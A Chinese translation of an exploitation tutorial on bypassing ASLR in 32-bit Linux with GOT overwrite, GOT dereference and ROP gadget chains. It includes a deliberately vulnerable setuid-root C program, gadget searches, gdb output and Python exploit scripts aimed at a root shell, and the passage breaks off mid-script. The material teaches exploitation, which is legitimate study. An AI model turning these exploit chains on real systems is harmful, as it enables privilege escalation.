


CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-绕过ASLR-第三篇章(GOT覆盖与GOT解引用)](http://www.csyssec.org/20170102/bypassaslr-gotgor)》与作者信息：CSysSec出品  

VM Setup: Ubuntu 12.04(x86)  

在这篇文章中，我们来看看如何利用GOT覆盖与GOT解引用技术来绕过共享库的随机化。正如在第一篇章提到的那样，尽管可执行文件没有必需的PLT存根代码，攻击者也能利用GOT覆盖和GOT解引用技术来绕过ASLR。  

漏洞代码:  

``` c
// vuln.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int main (int argc, char **argv) {
 char buf[256];
 int i;
 seteuid(getuid());
 if(argc < 2) {
  puts("Need an argument\n");
  exit(-1);
 }
 strcpy(buf, argv[1]);
 printf("%s\nLen:%d\n", buf, (int)strlen(buf));
 return 0;
}
```
编译命令：  

``` bash
#echo 2 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
注意：  

* system@PLT并没有出现在我们的可执行文件’vuln’中  
* 字符串”sh”也没有出现在我们的可执行文件’vuln’中  

## 0X01 什么是GOT覆盖

这项技术可以帮助攻击者利用另一个libc函数的地址来覆盖一个特定libc函数的GOT表项。举个例子，GOT[getuid]含有getuid的函数地址(在第一次调用之后)，当偏移差(offset difference)添加到GOT[getuid]表项时，它可以被execve的函数地址覆盖。我们已经知道，在共享库中，函数从基地址的偏移总是一个常量。因此，如果我们将两个libc函数（execve与getuid）的偏移差添加到getuid的GOT表项中，我们就可以获取execve函数的地址。之后，就可以通过调用getuid来调用execve!!  
```
offset_diff = execve_addr - getuid_addr
GOT[execve] = GOT[getuid] + offset_diff
```

## 0X02 什么是GOT解引用

这和GOT覆盖技术类似，但并不是覆盖一个特定libc函数的GOT表项，而是将GOT表项中的值拷贝到一个寄存器中并将偏移差添加到寄存器的内容中。因此现在寄存器就有了必需的libc函数地址。举个例子，GOT[getuid]含有getuid的函数地址，函数地址被拷贝到一个寄存器中。两个libc函数（execve与getuid）的偏移差添加到寄存器的内容中，现在可以跳转到寄存器的值中来调用execve!  
```
offset_diff = execve_addr - getuid_addr
eax = GOT[getuid]
eax = eax + offset_diff
```
这两种技术看起来很类似，但在运行期间出现缓冲区溢出时如何操作它们呢？ 我们需要识别出一个函数（用来执行这些运算并将结果放入寄存器中）,然后跳转到那个特定的函数来做到GOT覆盖/GOT解引用。 显然的是，在libc与我们的可执行文件中并没有一个单独的函数专门来做这件事，这种情况下，我们就要利用ROP技术了。  

## 0X03 什么是ROP

虽然没有一种直接了当的方法，[ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) 可以帮助攻击者一旦获取调用栈的控制权后，就可以执行构造好的机器指令来达到自己的目的
。举个例子，在return-to-libc攻击中，我们用system()的地址覆盖返回地址来执行system()。但如果system函数(以及execve函数簇)从libc共享库中脱离，攻击中就不能获取root shell。在这种情况下，ROP就可以用来拯救攻击者了。利用ROP技术，尽管在没有任何必需的libc函数的情况下，攻击者也可以执行一系列的gadgets来模拟必需的libc函数。  

## 0X04 什么是gadgets

gadgets是以’ret’指令结尾的一串指令。攻击中利用一个gadget地址来覆盖返回地址，这个gadget中含有与system()前几个汇编指令类似的汇编指令串。因此，返回到这个gadget地址就能执行system()的一部分功能。system()剩余的功能可以通过返回到其它的gadget中来完成。利用这种方法，链接一系列gadgets就能完整模拟system()的功能。因此，就算system()被脱离，也能照样被执行！  

## 0X05 如何在可执行文件中找出合适的gadgets

事实证明，可以利用gadget工具。有许多工具(比如 [ropeme](https://github.com/packz/ropeme), [ROPgadget](https://github.com/JonathanSalwan/ROPgadget), [rp++](https://github.com/0vercl0k/rp) )可以帮助攻击者在二进制文件中找出gadgets。这些工具的基本思想都是找出’ret’指令，然后往回找出一系列有用的机器指令。  

在我们的例子中，我们不必去利用ROP gadgets来模拟任何libc函数的功能。取而代之的是，我们需要覆盖一个libc函数的GOT表项或者保证任一的寄存器指向一个libc函数地址。让我们来看看如何利用ROP gadgets来实现GOT覆盖与GOT解引用吧！  

## 0X06 利用ROP做到GOT覆盖

-Gadget 1: 首先我们需要一个gadget将偏移差添加到GOT[getuid]中。因此，我们要找出一个add gadget用来将结果拷贝到内存区域。    

``` bash
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x080486fb: addb %dh, -0x01(%esi,%edi,8) ; jmpl *0x00(%ecx) ; (1 found)
0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
...
$
```
太棒了！ 我们找到了一个’add gadget’用来将结果拷贝到内存区域！  
现在，如果我们EBX中含有 `GOT[getuid] - 0x5d5b04c4`, EAX中含有偏移差，我们就可以执行GOT覆盖了！  

-Gadget 2: 确保EBX中含有getuid的GOT表项。getuid的GOT表项(如下所示)位于0x804a004处。因此，EBX必须要读入0x804a004, 但是在add gadget中一个常量(0x5d5b04c4)添加到了EBX中，我们就从EBX中减去那个常量： ebx =0x804a004 -0x5d5b04c4 = 0xaaa99b40。 现在我们需要找到一个gadget用来将这个值(0xaaa99b40)拷贝到EBX寄存器中。  
  
``` bash
$ objdump -R vuln
vuln: file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET TYPE VALUE 
08049ff0 R_386_GLOB_DAT __gmon_start__
0804a000 R_386_JUMP_SLOT printf
0804a004 R_386_JUMP_SLOT getuid
...
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```
太棒了！ 我们找到一个’pop gadget’! 因此，在将值(0xaaa99b40)push到栈中之后，再返回到“pop EBX”指令，EBX中就有了0xaaa99b40.  

-Gadget 3: 确保EAX含有偏移差。 我们需要找到一个gadget将偏移差拷贝到EAX寄存器中。  

```
$ gdb -q vuln
...
(gdb) p execve
$1 = {} 0xb761a1f0 
(gdb) p getuid
$2 = {} 0xb761acc0 
(gdb) p/x execve - getuid
$4 = 0xfffff530
(gdb) 
...
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x080484a3: popl %ebp ; ret ; (1 found)
0x080485cf: popl %ebp ; ret ; (1 found)
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```
因此，只要将偏移差(0xfffff530)push到栈中，然后返回到“pop EAX”指令，就能将偏移差拷贝到EAX中。但不幸的是，在我们的二进制文件‘vuln’中并不能找到’pop % eax; ret’ gadget。因此，GOT覆盖就变得不可能了。  

栈布局： 下图描绘了利用gadget链接来做到GOT覆盖  
  


## 0X07 利用ROP做到GOT解引用

-Gadget 1: 首先，我们需要一个gadget来将偏移差添加到GOT[getuid]中，结果需要加载到寄存器中。因此，我们来找出一个’add gadget’将结果拷贝到寄存器中  

``` bash
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 4
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
166 found.
A total of 166 gadgets found.
...
0x08048499: addl $0x0804A028, %eax ; addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
0x08048482: addl %esp, 0x0804A02C(%ebx) ; calll *0x08049F1C(,%eax,4) ; (1 found)
0x0804860e: addl -0x0B8A0008(%ebx), %eax ; addl $0x04, %esp ; popl %ebx ; popl %ebp ; ret ; (1 found)
...
$
```
太棒了，我们找到了一个’add gadget’用来将结果拷贝到寄存器中！现在，如果我们将EBX含有GOT[getuid]+0xb8a0008，EAX含有偏移差，就可以成功执行GOT解引用了！  

-Gadget 2: 正如在GOT覆盖那样，我们已经在可执行文件’vuln’中找到了’pop %ebx;ret’ gadget。  

-Gadget 3: 正如在GOT覆盖那样，可执行文件’vuln’中找不到’pop %eax’ret’ gadget。  

-Gadget 4: 通过调用寄存器来调用execve函数。因此我们需要一个’call *eax’ gadget  

``` bash
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x080485bb: calll *%-0x000000E0(%ebx,%esi,4) ; (1 found)
0x080484cf: calll *%eax ; (1 found)
0x0804860b: calll *%eax ; (1 found)
...
$
```
太棒了！我们找到了’call *eax’ gadget。 但仍然无法找到gadget 3 ‘pop %eax’ret’ ，GOT解引用依然变得不可能。  

栈布局： 下图描绘了利用gadget链接来做到GOT解引用  
    


在似乎没有找到其他方法的时候(至少当我开始学习ROP的时候), [Reno](http://v0ids3curity.blogspot.in/) 教我利用人工ROP gadget搜索来达成目的。多谢！ 继续阅读下去吧！

## 0X08 ROP gadget人工搜索

既然ROP gadget工具无法找到’pop eax’ret’ gadget, 我们就试试人工搜索方法来看看是否有任何有趣的gadgets能帮助我们将偏移差拷贝到EAX寄存器中。  

使用下面命令反汇编’vuln’二进制文件  

`$objdump -d vuln > out`  
-Gadget 4: 将偏移差（0xfffff530)加载到EAX寄存器。反汇编中可以看到，一条mov指令可以将栈中的内容拷贝到EAX中。  

``` 
80485b3: mov 0x34(%esp),%eax
80485b7: mov %eax,0x4(%esp)
80485bb: call *-0xe0(%ebx,%esi,4)
80485c2: add $0x1,%esi
80485c5: cmp %edi,%esi
80485c7: jne 80485a8 <__libc_csu_init+0x38>
80485c9: add $0x1c,%esp
80485cc: pop %ebx
80485cd: pop %esi
80485ce: pop %edi
80485cf: pop %ebp
80485d0: ret
```
但看起来’ret’(0x80485d0)离这条指令(0x80485b3)很远。因此这里主要的挑战就是在执行’ret’之前，EAX的内容没有被修改。  

未被修改的EAX: 我们来看看如何做到在执行’ret’之前，EAX不被修改。这里有条call指令(0x80485bb)，所以找出一种方法加载EBX与ESI以便让call指令调用一个不修改EAX的函数。  

```
0804861c <_fini>:
804861c: push %ebx
804861d: sub $0x8,%esp
8048620: call 8048625 <_fini+0x9>
8048625: pop %ebx
8048626: add $0x19cf,%ebx
804862c: call 8048450 <__do_global_dtors_aux>
8048631: add $0x8,%esp
8048634: pop %ebx
8048635: ret
08048450 <__do_global_dtors_aux>:
8048450: push %ebp
8048451: mov %esp,%ebp
8048453: push %ebx
8048454: sub $0x4,%esp
8048457: cmpb $0x0,0x804a028
804845e: jne 804849f <__do_global_dtors_aux+0x4f>
...
804849f: add $0x4,%esp
80484a2: pop %ebx
80484a3: pop %ebp
80484a4: ret
```
_fini调用了_do_global_dtors_aux, 这里当我们将内存区域0x804a028设置为0x1时，EAX不会被修改。  

那EBX与ESI中应该是什么值才能调用_fini呢？ 

1. 首先，我们需要找到一个含有_fini(0x804861c)地址的内存区域。 如下所示，内存地址0x8049f3x中含有_fini的地址  
```
0x8049f28 :    0x00000001 0x00000010 0x0000000c 0x08048354
0x8049f38 <_DYNAMIC+16>: 0x0000000d 0x0804861c 0x6ffffef5 0x080481ac
0x8049f48 <_DYNAMIC+32>: 0x00000005 0x0804826c
``` 
2. 将ESI设置为0x01020101.采用这个值，那是因为我们不能让ESI中为0x0，而这时一个strcpy漏洞代码，0是个不好的字符！ 另外，我们要确保存储在EBX中的结果值也不能是0！    
将EBX设置为下面的值  
```
ebx+esi*4-0xe0 = 0x8049f3c
ebx = 0x8049f3c -(0x01020101*0x4) + 0xe0
ebx = 0x3fc9c18
```

这样一来，我们发现要调用_fini，就需要确保EBX和ESI中必须分别加载0x3fc9c18与0x01020101  

-Gadget 5: 加载0x3fc9c18到EBX中  

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```
-Gadget 6: 加载0x01020101到ESI,加载0x01020102到EDI  

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 3
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
135 found.
A total of 135 gadgets found.
...
0x080485ce: popl %edi ; popl %ebp ; ret ; (1 found)
0x080485cd: popl %esi ; popl %edi ; popl %ebp ; ret ; (1 found)
0x08048390: pushl 0x08049FF8 ; jmpl *0x08049FFC ; (1 found)
...
$
```
-Gadget 7: 将0x1拷贝到内存区域0x804a028中  

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 5
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
183 found.
A total of 183 gadgets found.
...
0x080485ca: les (%ebx,%ebx,2), %ebx ; popl %esi ; popl %edi ; popl %ebp ; ret ; (1 found)
0x08048498: movb $0x00000001, 0x0804A028 ; addl $0x04, %esp ; popl %ebx ; popl %ebp ; ret ; (1 found)
0x0804849b: movb 0x83010804, %al ; les (%ebx,%ebx,2), %eax ; popl %ebp ; ret ; (1 found)
...
$
```
现在，我们已经完成了gadget搜索！ 我们开始这个游戏吧！  

Gadget搜索总结:  

* 要成功调用gadget 1,我们需要gadget 2和3  
* 由于没有gadget 3,我们做了人工搜索并找出了gadget 4,5,6和7.  
	- 要成功调用gadget4,我们需要gadget 5,6和7 
	
漏洞利用代码:下面的漏洞利用代码用execve函数地址覆盖了GOT[getuid]!!  
``` python
#!/usr/bin/env python
import struct
from subprocess import call
'''
 G1: 0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ;
 G2: 0x080484a2: popl %ebx ; pop ebp; ret ;
 G3: 0x????????: popl %eax ; ret ; (NOT found)
 G4: 0x080485b3: mov 0x34(%esp),%eax...
 G5: 0x08048380: pop ebx ; ret ;
 G6: 0x080485cd: pop esi ; pop edi ; pop ebp ; ret ;
 G7: 0x08048498: movb $0x1,0x804a028...
'''
g1 = 0x0804849e
g2 = 0x080484a2
g4 = 0x080485b3
g5 = 0x08048380
g6 = 0x080485cd
g7 = 0x08048498
dummy = 0xdeadbeef
esi = 0x01020101
edi = 0x01020102
ebx = 0x3fc9c18 #ebx = 0x8049f3c - (esi*4) + 0xe0
off = 0xfffff530
#endianess convertion
def conv(num):
 return struct.pack("<I",num) #Junk
buf = "A"*268
buf += conv(g7) #movb $0x1,0x804a028; add esp, 0x04; pop ebx; pop ebp; ret;
buf += conv(dummy)
buf += conv(dummy)
buf += conv(dummy)
buf += conv(g6) #pop esi; pop edi; pop ebp; ret;
buf += conv(esi) #esi
buf += conv(edi) #edi
buf += conv(dummy)
buf += conv(g5) #pop ebx; ret;
buf += conv(ebx) #ebx
buf += conv(g4) #mov 0x34(%esp),%eax; ...
for num in range(0,11):
 buf += conv(dummy)
buf += conv(g2) #pop ebx; pop ebp; ret;
ebx = 0xaaa99b40 #getuid@GOT-0x5d5b04c4
buf += conv(ebx)
buf += conv(off)
buf += conv(g1) #addl %eax, 0x5D5B04C4(%ebx); ret;
buf += "B" * 4
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上面的漏洞利用代码会生成一个core文件。打开core文件，可以看到GOT[getuid]被execve函数地址覆盖了(如下所示)  

```
$ python oexp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��ﾭ�ﾭ�ﾭ�ͅﾭހ�����ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭޢ�@���0�����BBBB
Len:376
sploitfun@sploitfun-VirtualBox:~/lsploits/new/aslr/part3$ sudo gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/aslr/part3/vuln...(no debugging symbols found)...done.
(gdb) core-file core 
[New LWP 18781]
warning: Can't read pathname for load map: Input/output error.
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) x/1xw 0x804a004
0x804a004 <getuid@got.plt>: 0xb761a1f0
(gdb) p getuid
$1 = {} 0xb761acc0 
(gdb) p execve
$2 = {} 0xb761a1f0 
(gdb)
```
太棒了，我们已经成功利用execve函数地址覆盖了getuid的GOT表项。因此从现在开始，任意对getuid的调用都会调用execve~~  

触发 root shell： 我们的漏洞利用代码还不完整。我们只执行了GOT覆盖但还没有触发root shell。 为了触发一个root shell， 将下面的libc函数(以及它们的参数)拷贝到栈中  

seteuid@PLT | getuid@PLT | seteuid_arg | execve_arg1 | execve_arg2 | execve_arg3  
这里  

* setuid@PLT - setuid的plt代码地址（0x80483c0)
* getuid@PLT - getuid的plt代码地址（0x80483b0)。 由于已经执行了GOT覆盖，这里会调用execve函数
* setuid_arg必须为0才能获取root shell
* execve_arg1 - 文件名 - 字符串“/bin/sh”的地址
* execve_arg2 - argv - 参数数组的地址，内容为[ “/bin/sh”的地址, NULL]
* execve_arg3 - envp - NULL
在这篇文章中，由于我们没有直接用0来溢出缓冲区(0是个不好的字符), 我们利用strcpy调用链拷贝0用来替代setuid_arg。但由于栈是被随机化的，这种方法在这里并不可行， 找出setuid_arg栈的地址变得困难起来。  

### 如何绕过栈地址随机化
可以利用自定义栈和栈旋转(stack pivoting)技术做到！  

### 什么是自定义栈
自定义栈就是被攻击者控制的栈区域。攻击者拷贝libc函数链以及相应的参数来绕过栈随机化，攻击者选择任意非位置独立(non position independent）并可写的内存区域作为自定义栈。在我们的二进制文件’vuln’中，可写并非位置独立的内存区域是从0x804a000到0x804b000（如下所示)  

```
$ cat /proc//maps
08048000-08049000 r-xp 00000000 08:01 399848 /home/sploitfun/lsploits/aslr/vuln
08049000-0804a000 r--p 00000000 08:01 399848 /home/sploitfun/lsploits/aslr/vuln
0804a000-0804b000 rw-p 00001000 08:01 399848 /home/sploitfun/lsploits/aslr/vuln
b7e21000-b7e22000 rw-p 00000000 00:00 0 
b7e22000-b7fc5000 r-xp 00000000 08:01 1711755 /lib/i386-linux-gnu/libc-2.15.so
b7fc5000-b7fc7000 r--p 001a3000 08:01 1711755 /lib/i386-linux-gnu/libc-2.15.so
b7fc7000-b7fc8000 rw-p 001a5000 08:01 1711755 /lib/i386-linux-gnu/libc-2.15.so
b7fc8000-b7fcb000 rw-p 00000000 00:00 0 
b7fdb000-b7fdd000 rw-p 00000000 00:00 0 
b7fdd000-b7fde000 r-xp 00000000 00:00 0 [vdso]
b7fde000-b7ffe000 r-xp 00000000 08:01 1711743 /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r--p 0001f000 08:01 1711743 /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rw-p 00020000 08:01 1711743 /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rw-p 00000000 00:00 0 [stack]
$
```
含有.data和.bss段的内存区域可以用来当做自定义栈，我将自定义栈的位置选为0x804a360。  

选择选择好自定义栈位置后，我们需要拷贝libc函数链以及相应的参数到自定义栈中。在我们的例子中，将下面的libc函数(以及相应的参数)拷贝到自定义栈中，以用来触发root shell。  

seteuid@PLT | getuid@PLT | seteuid_arg | execve_arg1 | execve_arg2 | execve_arg3  
为了将这些内容拷贝到自定义栈，我们需要利用一系列strcpy调用来覆盖真实栈中的返回地址。比如，为了将seteuid@PLT (0x80483c0)拷贝到自定义栈中，我们需要  

* 四个strcpy调用- 每个十六进制值分别有一个strcpy调用(0x08, 0x04, 0x83, 0xc0)
* strcpy的源参数必须是含有必需的十六进制值的可执行内存区域的地址。另外我们需要确保选择的内存区域的值不能被修改。
* strcpy的目的参数必须是自定义栈的地址

遵守以上原则，我们可以设置完整的自定义栈。一旦设置好了自定义栈，我们需要利用栈旋转技术(stack pivoting)将真实栈移到自定义栈中  

### 什么是栈旋转
栈旋转可以利用’leave ret’指令来做到。我们已经知道“leave”被翻译为  
```
mov ebp, esp
pop ebp
```
因此，在执行”leave“指令之前，将自定义栈的地址加载到EBP中--当“leave”执行后，将ESP指向EBP！ 这样就已经旋转了自定义栈，我们继续执行加载到自定义栈中的一系列libc函数，就可以触发root shell了。  

完整漏洞利用代码：  
``` python

#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
#GOT overwrite using ROP gadgets
'''
 G1: 0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ;
 G2: 0x080484a2: popl %ebx ; pop ebp; ret ;
 G3: 0x????????: popl %eax ; ret ; (NOT found)
 G4: 0x080485b3: mov 0x34(%esp),%eax...
 G5: 0x08048380: pop ebx ; ret ;
 G6: 0x080485cd: pop esi ; pop edi ; pop ebp ; ret ;
 G7: 0x08048498: movb $0x1,0x804a028...
'''
g1 = 0x0804849e
g2 = 0x080484a2
g4 = 0x080485b3
g5 = 0x08048380
g6 = 0x080485cd
g7 = 0x08048498
dummy = 0xdeadbeef
esi = 0x01020101
edi = 0x01020102
ebx = 0x3fc9c18               #ebx = 0x8049f3c - (esi*4) + 0xe0
off = 0xfffff530
#Custom Stack
#0x804a360 - Dummy EBP|seteuid@PLT|getuid@PLT|seteuid_arg|execve_arg1|execve_arg2|execve_arg3
cust_esp = 0x804a360          #Custom stack base address
cust_base_esp = 0x804a360     #Custom stack base address
#seteuid@PLT 0x80483c0
seteuid_oct1 = 0x8048143      #08
seteuid_oct2 = 0x8048130      #04
seteuid_oct3 = 0x8048355      #83
seteuid_oct4 = 0x80481cb      #c0
#getuid@PLT 0x80483b0
getuid_oct1 = 0x8048143       #08
getuid_oct2 = 0x8048130       #04
getuid_oct3 = 0x8048355       #83
getuid_oct4 = 0x80483dc       #b0
#seteuid_arg 0x00000000
seteuid_null_arg = 0x804a360
#execve_arg1 0x804ac60
execve_arg1_oct1 = 0x8048143  #08
execve_arg1_oct2 = 0x8048130  #04 
execve_arg1_oct3 = 0x8048f44  #AC 
execve_arg1_oct4 = 0x804819a  #60
#execve_arg2 0x804ac68
execve_arg2_oct1 = 0x8048143  #08
execve_arg2_oct2 = 0x8048130  #04 
execve_arg2_oct3 = 0x8048f44  #AC 
execve_arg2_oct4 = 0x80483a6  #68
#execve_arg3 0x00000000
execve_null_arg = 0x804a360
execve_path_dst = 0x804ac60   #Custom stack location which contains execve_path "/bin/sh"
execve_path_oct1 = 0x8048154  #/
execve_path_oct2 = 0x8048157  #b
execve_path_oct3 = 0x8048156  #i
execve_path_oct4 = 0x804815e  #n
execve_path_oct5 = 0x8048162  #s
execve_path_oct6 = 0x80483a6  #h
execve_argv_dst = 0x804ac68   #Custom stack location which contains execve_argv [0x804ac60, 0x0]
execve_argv1_oct1 = 0x8048143 #08
execve_argv1_oct2 = 0x8048130 #04 
execve_argv1_oct3 = 0x8048f44 #AC 
execve_argv1_oct4 = 0x804819a #60
strcpy_plt = 0x80483d0        #strcpy@PLT
ppr_addr = 0x080485ce         #popl %edi ; popl %ebp ; ret ;
#Stack Pivot
pr_addr = 0x080484a3          #popl %ebp ; ret ;
lr_addr = 0x08048569          #leave ; ret ;
#endianess convertion
def conv(num):
 return struct.pack("<I",num) #Junk
buf = "A"*268
buf += conv(g7)               #movb $0x1,0x804a028; add esp, 0x04; pop ebx; pop ebp; ret;
buf += conv(dummy)
buf += conv(dummy)
buf += conv(dummy)
buf += conv(g6)               #pop esi; pop edi; pop ebp; ret;
buf += conv(esi)              #esi
buf += conv(edi)              #edi
buf += conv(dummy)
buf += conv(g5)               #pop ebx; ret;
buf += conv(ebx)              #ebx
buf += conv(g4)               #mov 0x34(%esp),%eax; ...
for num in range(0,11):
 buf += conv(dummy)
buf += conv(g2)               #pop ebx; pop ebp; ret;
ebx = 0xaaa99b40              #getuid@GOT-0x5d5b04c4
buf += conv(ebx)
buf += conv(off)
buf += conv(g1)               #addl %eax, 0x5D5B04C4(%ebx); ret;
#Custom Stack
#Below stack frames are for strcpy (to copy seteuid@PLT to custom stack)
cust_esp += 4                 #Increment by 4 to get past Dummy EBP.
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct1)
#Below stack frames are for strcpy (to copy getuid@PLT to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct1)
#Below stack frames are for strcpy (to copy seteuid arg  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
#Below stack frames are for strcpy (to copy execve_arg1  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct4)
cust_esp += 1
